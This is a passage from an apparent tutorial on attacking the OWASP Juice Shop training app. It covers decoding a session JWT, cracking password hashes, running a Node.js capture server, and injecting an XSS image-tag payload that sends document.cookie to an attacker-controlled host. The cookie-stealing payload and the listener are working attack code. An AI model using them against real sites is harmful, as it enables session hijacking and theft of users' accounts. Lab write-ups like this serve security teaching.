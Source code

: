 Executing this will display the session cookie, which you can inspect to find the JWT.

![cookie-exposed](https://github.com/jmr54/Website-Security-Research/assets/29048308/d7f49cb3-50bd-405b-ae04-4da3920ef141)


2. **Decode the JWT**: Use [JWT.io](https://jwt.io/) to decode the token, revealing the user's details. To crack any hashed information like passwords, you might use a hash decryption service found via a simple web search.

![decode-jwt](https://github.com/jmr54/Website-Security-Research/assets/29048308/8820aa85-26d0-427e-bc0d-20ebfcb8e5c8)

![decode-pw-1](https://github.com/jmr54/Website-Security-Research/assets/29048308/1a53b6b5-fbde-4c70-871a-e565d3edbd07)

![decode-pw-2](https://github.com/jmr54/Website-Security-Research/assets/29048308/e271fbae-de0e-40ab-842c-cd35b5944c61)

## Setting Up a Listener

To capture data stealthily, you'll need a server to collect the JWTs from users:

1. **Prepare Your Capture Server**:  Ensure you have Node.js and Express installed. Use the following basic server setup and run it using ```npm start```. 

```
// Sample Node.js server to capture data
const express = require('express');
const app = express();

app.get('/capture', (req, res) => {
  console.log('Data captured:', req.query.data);
  res.status(200).send('Data captured');
});

app.listen(9000, () => console.log('Server listening on port 9000'));
```

Keep this server running as you proceed.

![server-running](https://github.com/jmr54/Website-Security-Research/assets/29048308/3148064f-c254-4876-bf1b-8fa528491efb)

## Implementing the XSS Attack

Now, you're ready to craft a link that will send the user's JWT to your capture server when clicked:

1. **Prepare the Malicious Payload**: Within your test account, input the following into the Juice Shop's search:

```
<img src=https://github.com/favicon.ico onload=this.src='http://your-server-address:9000/capture?data='+document.cookie>
```
Replace your-server-address with the actual address of your capture server. Enter the payload in search, and you'll notice the server logs the JWT token:
